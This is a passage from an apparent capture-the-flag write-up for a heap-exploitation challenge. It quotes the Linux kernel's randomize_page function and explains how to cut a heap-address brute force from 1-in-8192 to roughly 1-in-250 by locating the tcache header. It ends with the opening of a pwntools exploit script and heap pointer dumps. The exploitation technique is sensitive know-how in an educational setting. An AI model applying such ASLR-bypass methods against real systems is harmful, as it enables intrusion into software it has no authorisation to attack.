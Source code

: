 ```c
	return randomize_page(mm->brk, 0x02000000);
}

// https://elixir.bootlin.com/linux/v6.7.4/source/mm/util.c#L338
/**
 * randomize_page - Generate a random, page aligned address
 * @start:	The smallest acceptable address the caller will take.
 * @range:	The size of the area, starting at @start, within which the
 *		random address must fall.
 *
 * If @start + @range would overflow, @range is capped.
 *
 * NOTE: Historical use of randomize_range, which this replaces, presumed that
 * @start was already page aligned.  We now align it regardless.
 *
 * Return: A page aligned address within [start, start + range).  On error,
 * @start is returned.
 */
unsigned long randomize_page(unsigned long start, unsigned long range)
{
	if (!PAGE_ALIGNED(start)) {
		range -= PAGE_ALIGN(start) - start;
		start = PAGE_ALIGN(start);
	}

	if (start > ULONG_MAX - range)
		range = ULONG_MAX - start;

	range >>= PAGE_SHIFT;

	if (range == 0)
		return start;

	return start + (get_random_long() % range << PAGE_SHIFT);
}

```

To be quite honest this is enough on it's own.  A 1-in-8192 brute isn't exactly fast but frankly I've done stupider things for a flag than a three hour brute (sry not sry infra; someone actually took it down doing this and got a POW added).  

In the end though there was a pretty easy optimization that could cut that down to merely a couple hundred throws.  The heap is (in this program, at the current state) 33 pages long and all we need to do is land somewhere inside the heap.   Once we know a valid heap offset, we can walk back until the  tcache perthread header is found -- bringing an 1/8192 chance down to 1/250-ish. 


```python
#!/usr/bin/env python3

from pwn import *

e = ELF("boogie-woogie")

context.terminal = ["zellij", "action", "new-pane", "-d", "right", "-c", "--", "zsh", "-c"]
context.binary = e


@context.quietfunc
def conn():
    if args.LOCAL:
        r = process([e.path])
    elif args.GDB:
        r = gdb.debug([e.path])
```

[heap]: 0x0000555555564ac0  ->  0x00007ffff7faace0  ->  0x0000555555585000  ->  0x0000000000000000
[heap]: 0x0000555555564ac8  ->  0x00007ffff7faace0  ->  0x0000555555585000  ->  0x0000000000000000
